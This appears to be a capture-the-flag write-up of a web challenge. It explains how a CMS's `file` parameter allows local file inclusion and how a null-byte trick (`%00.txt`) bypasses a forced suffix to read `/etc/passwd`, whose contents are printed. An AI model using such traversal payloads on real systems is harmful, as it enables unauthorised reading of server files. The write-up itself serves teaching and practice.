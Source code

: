 ![cms front page](./web-cms-1.png)
Nothing much to see here, except for an interesting url. See there is a parameter `file` which takes in the value `file.txt` which we then can assume is read from disk and included in the web page. This looks very much like a classical LFI exploit. We can then try to just change the filename like `?file=flag.txt`. We see we get no errors, but also no content. Then we can try to look for other files like maybe `?file=flag.html`, but we are then redirected to `?file=file.html.txt`. So seems it really wants to append the `.txt` suffix. 

Some old versions of PHP are vulnerable to null bytes, as old native C libraries used to store strings just as raw data and then append a zero byte to the end of the string to signal that the string finished here. So we can try something like `?file=file.txt%00.txt`, which seems to print the same `Welcome to CMS 0.2RC4. ` normally, and assume this to work. We can then see if we can look into other folders, maybe global paths like `?file=/etc/passwd%00.txt`. The `/etc/passwd` is a standard unix file which exists on most unix like operating systems like linux, which I assume this webserver runs. And we can see that the following gets printed:
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:103:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:104:systemd Network Management,,,:/run/systemd/netif:/bin/false
```
